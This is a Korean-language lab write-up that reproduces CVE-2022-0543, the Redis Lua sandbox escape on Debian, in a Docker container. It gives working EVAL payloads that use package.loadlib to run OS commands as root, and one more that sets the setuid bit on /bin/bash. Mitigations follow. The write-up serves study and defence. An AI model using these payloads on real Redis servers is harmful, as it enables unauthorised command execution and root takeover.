






# CVE-2022-0543 Redis Lua Sandbox Escape

## 1. 취약점 요약

CVE-2022-0543은 Debian 계열 Linux 환경에서 Redis 패키징 과정의 문제로 인해 발생하는 Lua Sandbox Escape 취약점이다.

Redis는 Lua Script 실행 기능(EVAL)을 제공하며, Script 실행 시 제한된 Lua 환경을 제공한다. 

하지만 Debian 패키징 과정에서 Lua 관련 라이브러리가 노출되면서 package.loadlib() 사용이 가능해졌고, 이를 통해 제한된 Lua 환경을 우회할 수 있다.

이를 통해 Redis 프로세스 권한으로 임의의 OS 명령 실행이 가능하며, Redis가 높은 권한으로 실행되는 경우 시스템 전체에 영향을 줄 수 있다.

영향받는 환경은 Debian 및 Debian 기반 Linux 배포판의 Redis 패키지이며, Redis 공식 소스(upstream)의 취약점이 아닌 Debian 계열 패키징 과정에서 발생한 문제이다.


---

## 2. 환경 구성

### 실습 환경

| 항목 | 내용 |
|---|---|
| Host OS | Windows 11 |
| Container Platform | Docker Desktop |
| Base Image | debian:buster |
| Redis | Debian Package redis-server |
| Lua Version | Lua 5.1 |
| Port | 6379 |


### Dockerfile

Debian 기반 Docker 환경에서 CVE-2022-0543이 발생하는 Redis 패키지 환경을 직접 구성하였다.

```dockerfile
FROM debian:buster

RUN apt update && \
    apt install -y redis-server lua5.1 liblua5.1-0 && \
    rm -rf /var/lib/apt/lists/*

EXPOSE 6379

CMD ["redis-server", "--protected-mode", "no"]
```

### docker-compose.yml

취약한 Redis 컨테이너 실행을 위해 다음과 같이 구성하였다.

```yaml
services:
  redis:
    build:
      context: .
    ports:
      - "6379:6379"
```

Docker 이미지 빌드:

프로젝트 디렉터리에서 다음 명령어를 실행한다.

```bash
docker compose build
docker compose up -d
```




컨테이너 상태 확인:

```bash
docker ps
```



---

# 3. 취약 조건

CVE-2022-0543 취약점이 발생하기 위해서는 다음 조건이 필요하다.

## 1) Debian 계열 Redis 패키지 사용

Debian 패키징 과정에서 Lua 라이브러리가 동적으로 제공되며, 이 과정에서 Lua Sandbox Escape가 발생한다.

## 2) Redis Lua Script 실행 가능

Redis의 `EVAL` 명령어 실행 권한이 있어야 한다.

## 3) Redis 접근 가능

공격자가 Redis 서버에 접근하여 Lua Script를 실행할 수 있어야 한다.

## 4) 높은 권한으로 실행되는 Redis 프로세스

Redis 프로세스가 root 등 높은 권한으로 실행되는 경우 취약점 악용 시 영향 범위가 증가한다.

---

# 4. 재현 절차

## 4.1 Redis 서버 접속

컨테이너 내부 접속:

```bash
docker exec -it <container_name> bash
```

Redis CLI 실행:

```bash
redis-cli
```

Redis 동작 확인:

```redis
PING
```

결과:

```text
PONG
```



---

## 4.2 Lua 공유 라이브러리 확인

취약점 재현에 필요한 Lua 라이브러리를 확인한다.

```bash
ls -al /usr/lib/x86_64-linux-gnu/liblua*
```



---

# 5. PoC 코드

해당 PoC는 Lua의 package.loadlib() 함수를 이용하여 공유 라이브러리를 로드한다.

이후 luaopen_os 함수를 호출하여 Lua Sandbox 환경에서 os 모듈에 접근하고,
os.execute()를 통해 Redis 프로세스 권한으로 OS 명령 실행이 가능함을 확인한다.

```redis
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /root/redis_poc"); return 0' 0
```

실행 결과:

```text
(integer) 0
```

생성된 파일 확인:

```bash
ls -al /root
```



`redis_poc` 파일이 생성되면서 Lua Sandbox Escape가 성공한 것을 확인하였다.

---

# 6. 명령 실행 확인

Lua Sandbox Escape를 이용하여 OS 명령 실행 여부를 확인한다.

```redis
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

실행 결과:

```text
uid=0(root) gid=0(root) groups=0(root)
```



Redis 프로세스 권한(root)으로 OS 명령 실행이 가능한 것을 확인하였다.

---

# 7. 권한 영향 범위 확인

※ 해당 단계는 CVE 자체 재현 이후 Redis 프로세스가 높은 권한으로 실행될 경우의 영향 범위를 확인하기 위한 추가 실험이다.

```redis
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("chmod +s /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
```

Redis CLI 종료 후:

```bash
/bin/bash -p
```

권한 확인:

```bash
id
```

결과:

```text
uid=0(root)
gid=0(root)
groups=0(root)
```

Redis 컨테이너 내부에서 root 권한으로 명령 실행이 가능한 것을 확인하였다.

---

# 8. 실행 결과

실습 결과 CVE-2022-0543 취약점을 정상적으로 재현하였다.

공격 과정은 다음과 같다.

1. Debian 기반 취약 Redis Docker 환경 구성
2. Redis Lua Script 실행 가능 여부 확인
3. package.loadlib()를 이용한 Lua Sandbox Escape 수행
4. OS 명령 실행 확인

최종적으로 Redis Lua Script 실행 기능을 이용하여 Lua Sandbox를 탈출하고,
Redis 프로세스 권한으로 시스템 명령어 실행이 가능한 것을 확인하였다.

실습 결과:

- Redis Lua Script 실행 가능 확인
- `package.loadlib()`를 이용한 Lua Sandbox Escape 성공
- 임의 OS 명령 실행 확인
- Redis 실행 권한(root)으로 명령 실행 확인

---

# 9. 대응 방안


## 1) Redis 버전 업데이트

취약한 Redis 버전을 사용하지 않고 보안 패치가 적용된 최신 버전을 사용해야 한다.


## 2) Debian/Ubuntu 보안 업데이트 적용

Debian 계열 환경에서는 CVE-2022-0543 패치가 적용된 Redis 패키지를 사용해야 한다.


## 3) Redis 인증 설정

Redis 서버를 외부에 노출하지 않고 인증 기능을 활성화해야 한다.

예:

```conf
requirepass strong_password
```

Redis 설정 파일(redis.conf)에서 비밀번호 인증을 활성화하여 비인가 사용자의 접근을 방지한다.

## 4) Redis 외부 노출 제한

Redis는 기본적으로 내부 서비스 용도로 사용되는 경우가 많으므로 외부 네트워크에서 직접 접근할 수 없도록 설정해야 한다.

예:

```conf
bind 127.0.0.1
```

또는 방화벽 정책을 적용하여 Redis 포트(6379)에 대한 접근을 제한한다.

## 5) 최소 권한 원칙 적용

Redis 프로세스를 root 권한으로 실행하지 않고 별도의 제한된 사용자 계정으로 실행해야 한다.

Redis가 높은 권한으로 실행될 경우 Lua Sandbox Escape 취약점 발생 시 시스템 영향도가 증가할 수 있다.

---

# 10. 결론

CVE-2022-0543 취약점은 Redis 자체의 Lua Script 기능 문제가 아닌 Debian 계열 패키징 과정에서 발생한 Lua 라이브러리 노출 문제로 인해 발생한다.

공격자는 Redis의 EVAL 명령어를 이용하여 Lua Script를 실행하고, package.loadlib() 함수를 통해 Lua Sandbox를 우회할 수 있다.

본 실습에서는 Debian 기반 Docker 환경에서 Redis 패키지를 직접 구성한 후 다음 과정을 통해 CVE-2022-0543 취약점을 재현하였다.

- Debian 기반 취약 Redis Docker 환경 구성
- Redis Lua Script 실행 확인
- package.loadlib()를 이용한 Lua Sandbox Escape 수행
- 파일 생성 및 OS 명령 실행 확인
- Redis 실행 권한(root)으로 명령 실행 확인

이를 통해 CVE-2022-0543 취약점이 발생할 경우 Redis 서버 권한에 따라 임의 코드 실행으로 이어질 수 있음을 확인하였다.

따라서 Redis 운영 환경에서는 최신 보안 패치 적용, 접근 제어 설정, 인증 활성화, 최소 권한 운영 등의 보안 조치가 필요하다. 